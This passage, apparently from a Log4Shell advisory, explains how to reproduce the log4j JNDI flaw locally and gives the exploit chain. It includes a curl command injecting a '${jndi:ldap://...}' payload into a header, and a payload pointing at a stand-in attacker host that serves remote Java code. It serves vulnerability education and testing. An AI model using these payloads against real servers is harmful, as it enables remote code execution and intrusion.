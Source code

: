 ```ts
    OutputStream os = he.getResponseBody();
    os.write(response.getBytes());
    os.close();
  }
}
```

#### Reproducing Locally

If you want to reproduce this vulnerability locally, you can refer to christophetd's [vulnerable app](https://github.com/christophetd/log4shell-vulnerable-app).

In a terminal run:

```shell
docker run -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

And in another:

```shell
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://127.0.0.1/a}'
```

The logs should include an error message indicating that a remote lookup was attempted but failed:

```shell
2021-12-10 17:14:56,207 http-nio-8080-exec-1 WARN Error looking up JNDI resource [ldap://127.0.0.1/a]. javax.naming.CommunicationException: 127.0.0.1:389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
```

### Exploit Steps

1. Data from the User gets sent to the server (via any protocol).
2. logs the data containing the malicious payload from the request `${jndi:ldap://some-attacker.com/a}`, where `some-attacker.com` is an attacker controlled server.
3. The log4j vulnerability is triggered by this payload and the server makes a request to `some-attacker.com` via "[Java Naming and Directory Interface](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)" (JNDI).
4. This response contains a path to a remote Java class file (ex. `http://second-stage.some-attacker.com/Exploit.class`), which is injected into the server process.
5. This injected payload triggers a second stage, and allows an attacker to execute arbitrary code.

Due to how common Java vulnerabilities such as these are, security researchers have created tools to easily exploit
them. The [marshalsec](https://github.com/mbechler/marshalsec) project is one of many that demonstrates generating an
exploit payload that could be used for this vulnerability. You can refer to [this malicious LDAP server](https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java) for an example of exploitation.

## How to identify vulnerable remote servers

Note: 
Make sure that you have permission from the owner of the server being penetration tested.
